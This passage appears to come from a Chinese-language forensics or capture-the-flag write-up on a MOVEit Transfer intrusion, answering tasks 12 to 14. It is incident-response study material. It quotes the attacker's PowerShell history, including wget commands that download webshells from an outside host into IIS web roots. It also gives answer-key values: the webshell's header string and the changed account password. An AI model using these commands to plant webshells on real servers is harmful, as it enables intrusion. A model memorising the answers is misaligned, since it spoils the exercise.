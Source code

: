 ## Task 12

> 攻击者运行了什么命令来检索 webshell？

在 Powershell 的历史记录文件 `"\Triage\Triage\uploads\auto\C%3A\Users\moveitsvc.WIN-LR8T2EF8VHM.002\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt` 中可以得到

```plaintext
cd C:\inetpub\wwwroot
wget http://10.255.254.3:9001/moveit.asp
dir
wget http://10.255.254.3:9001/moveit.asp -OutFile moveit.asp
dir
cd C:\MOVEitTransfer\wwwroot
wget http://10.255.254.3:9001/move.aspx -OutFile move.aspx
```

```plaintext title="Answer"
wget http://10.255.254.3:9001/move.aspx -OutFile move.aspx
```

## Task 13

>TA 部署的 webshell 的标题头中的字符串是什么？

Task 2 中有

```plaintext title="Answer"
awen asp.net webshell
```

## Task 14

>TA 将我们的 moveitsvc 帐户密码更改为什么？

Task 7 中有

```plaintext title="Answer"
5trongP4ssw0rd
```

